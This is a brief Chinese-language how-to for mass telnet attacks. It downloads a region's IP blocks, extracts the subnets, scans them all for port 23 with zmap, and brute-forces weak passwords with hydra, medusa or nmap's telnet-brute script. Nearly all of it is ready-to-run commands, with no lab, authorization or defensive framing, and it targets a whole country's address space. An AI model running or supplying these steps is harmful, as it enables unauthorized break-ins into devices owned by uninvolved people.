 1、下载指定地区IP段
    通过http://ipblock.chacuo.net/ 下载制定IP段文件
2、处理IP段，变成子网验码段
    awk '{print $3}' chinaip.txt > targetip.txt
3、通过zmap扫描上述文件的特定端口（如：23端口）
    zmap -w targetip.txt -p 23 -B 2M -o targetipresult.txt
4、通过hydra、medusa或者python调用库自己编写弱口令探测
    nmap -p 23 --script telnet-brute --script-args userdb=user.txt,passdb=pwd.txt,telnet-brute.timeout=8s -Pn -iL host.txt -v
    
